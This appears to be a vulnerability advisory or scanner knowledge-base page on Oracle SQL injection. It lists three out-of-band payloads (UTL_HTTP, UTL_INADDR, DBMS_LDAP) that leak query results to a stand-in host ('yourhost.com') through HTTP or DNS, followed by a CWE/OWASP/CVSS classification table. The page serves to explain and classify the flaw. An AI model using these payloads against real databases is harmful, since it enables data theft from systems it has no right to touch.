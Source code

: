-   ?vulnerableParam=(SELECT UTL\_HTTP.REQUEST('http://host/ '||({INJECTION})||'.html') FROM DUAL)  
    Results will be saved in HTTP access logs
    
-   ?vulnerableParam=(SELECT UTL\_INADDR.get\_host\_addr(({INJECTION})||'.yourhost.com') FROM DUAL)  
    You need to sniff dns resolution requests to yourhost.com
    
-   ?vulnerableParam=(SELECT SYS.DBMS\_LDAP.INIT(({INJECTION})||'.yourhost.com',80) FROM DUAL)  
    You need to sniff dns resolution requests to yourhost.com
    
    {INJECTION} = You want to run the query.
    

## Vulnerability Classification and Severity Table

Classification

ID / Severity

PCI v3.1

6.5.1

PCI v3.2

6.5.1

OWASP 2013

A1

CWE

89

CAPEC

66

WASC

19

HIPAA

164.306(a), 164.308(a)

CVSS 3.0 Score

Base

 10 (Critical)

Temporal

 10 (Critical)

Environmental

 10 (Critical)

CVSS Vector String

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H